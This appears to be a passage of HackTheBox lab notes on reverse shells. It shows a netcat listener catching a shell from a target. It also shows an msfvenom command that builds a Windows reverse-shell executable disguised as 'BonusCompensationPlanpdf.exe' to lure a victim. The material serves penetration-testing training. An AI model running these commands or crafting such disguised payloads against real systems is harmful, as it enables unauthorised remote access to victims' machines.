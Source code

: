 And when the file is executed&#x20;

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
```

#### Building a simple Stageless Payload for a Windows system

```shell-session
ElFelixi0@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

The command syntax can be broken down in the same way we did above. The only differences, of course, are the `platform` (`Windows`) and format (`.exe`)

Let's say our target downloaded the file ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

